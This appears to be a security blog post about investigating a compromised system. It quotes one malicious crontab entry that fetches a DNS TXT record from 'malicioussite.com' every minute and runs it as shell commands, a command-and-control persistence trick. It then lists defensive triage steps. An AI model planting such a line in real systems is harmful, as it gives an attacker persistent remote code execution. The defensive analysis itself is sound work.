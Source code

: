 ```yaml
---
title: "Investigation and Mitigation of a System Compromise via Crontab"
date: 2023-01-04 12:02:05
categories: [vulnerabilities]
tags: [vulnerabilities, crontabs, persistence]
---
```



# Investigation and Mitigation of a System Compromise via Crontab

## Introduction

In the world of information security, detecting and mitigating malicious activities is essential to protect the integrity and confidentiality of systems. Recently, we encountered an intriguing case of system compromise through a crontab command. This article details the discovery, analysis, and mitigation measures taken to resolve the issue.

## Discovery of the Problem

While inspecting the crontabs on the system, the following suspicious entry was found:

```bash
* * * * * /bin/sh -c "sh -c $(dig malicioussite.com TXT +short @ns.malicioussite.com)"
```

This line indicates that a command is executed every minute, querying a DNS TXT record from the domain `malicioussite.com` and executing the result. This technique is often used to maintain control over compromised systems.

## Command Analysis

### Command Components

- `* * * * *`: Indicates that the command is executed every minute.
- `/bin/sh -c`: Executes a shell command.
- `$(dig malicioussite.com TXT +short @ns.malicioussite.com)`: Uses `dig` to query a DNS TXT record and executes the result.

### Suspicious Behavior

This configuration allows an attacker to remotely update the executed command by changing the TXT record on the `ns.malicioussite.com` DNS server. This is a clear indication of a possible command and control (C2) mechanism.

## Mitigation Measures

### 1. Disable the Crontab

To prevent the execution of the malicious command, the crontab entry was disabled:

```bash
sudo crontab -e
```

The suspicious line was commented out or removed.

### 2. Investigate the Machine

Other crontabs and configuration files were inspected to find suspicious commands:

```bash
sudo find /var/spool/cron -type f -exec cat {} \;
sudo find /etc/cron* -type f -exec cat {} \;
```

### 3. Check Network Connections

Tools like `netstat`, `ss`, and `lsof` were used to identify suspicious network connections:

```bash
sudo netstat -tulnp
sudo ss -tulnp
sudo lsof -i
```

### 4. Examine Running Processes

Running processes were checked to identify activities related to `sh -c`:

```bash
ps aux | grep -i 'sh -c'
```

### 5. Check System Logs

System logs were examined to detect suspicious activities:

```bash
sudo tail -n 100 /var/log/syslog
sudo tail -n 100 /var/log/auth.log
```

### 6. Use Security Tools

Rootkit check and security analysis tools were executed:

```bash
sudo chkrootkit
sudo rkhunter --checkall
sudo lynis audit system
```

### 7. Isolate and Reboot the Machine

The machine was isolated from the network to prevent the spread of malicious activities and was rebooted to ensure system integrity.

### 8. Report and Analyze

The incident was reported to the security team for further analysis and to implement additional security measures.

## Conclusion

Detecting and mitigating malicious activities requires attention to detail and a solid knowledge of available tools and techniques. This case of system compromise via crontab highlighted the importance of continuous vigilance and quick and effective response measures. System security is an ongoing responsibility, and prevention is always the best remedy.

---

_Stay vigilant and keep your systems secure!_
